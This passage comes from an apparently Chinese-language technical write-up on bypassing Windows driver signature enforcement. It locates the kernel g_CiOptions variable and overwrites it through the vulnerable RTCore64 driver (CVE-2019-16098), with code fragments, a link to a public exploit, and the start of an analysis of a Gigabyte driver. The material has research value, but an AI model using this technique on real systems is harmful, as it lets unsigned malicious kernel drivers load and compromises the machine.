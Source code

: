 ```bash
            return (DWORD64)(pvModules->Modules[i].ImageBase);
        }

    }
    return 0;
}
```

获取内核下的 g\_options:

```bash
DWORD64 g_op = (gOption_NextLine & ~(ULONGLONG)0xFFFFFFFF) + ((gOption_NextLine + gOption_Value) & (ULONGLONG)0xFFFFFFFF);
    printf("g_op = %p \r\n",g_op);

    ULONG64 Kernel_option = GetCiBaseAdress() + (g_op - (ULONG64)hModule);

    printf("kernelOptions = %p \r\n", Kernel_option);
```

> [https://github.com/0xDivyanshu-new/CVE-2019-16098/blob/main/exploit.cpp](https://github.com/0xDivyanshu-new/CVE-2019-16098/blob/main/exploit.cpp)

接下来就只需要使用漏洞驱动去修改此地址，一般来说是使用 RTCore

```bash
const auto Device = CreateFileW(LR"(\\.\RTCore64)",GENERIC_READ | GENERIC_WRITE,0,nullptr,OPEN_EXISTING,0,nullptr);

    if (Device == INVALID_HANDLE_VALUE)
    {
        printf("[!] Unable to obtain a handle to the device object");
        return;
    }

    cout << ReadMemoryWORD(Device, Ci_gOptions) << endl;
```

只需要将这个值改为 0 后就可以加载未签名的驱动了，当然你的驱动加载完毕后需要在将该值改为 6。否则会蓝屏

如果说不想使用 RTCore64 则可以使用去年的技嘉驱动，找了一下发现国内还没发布过这个漏洞的分析，所以在这里做个简单分析：

通过驱动入口点观察，发现注册了派遣函数：sub\_12D10，以及设备\\Device\\GIO，并没有做任何相关认证：
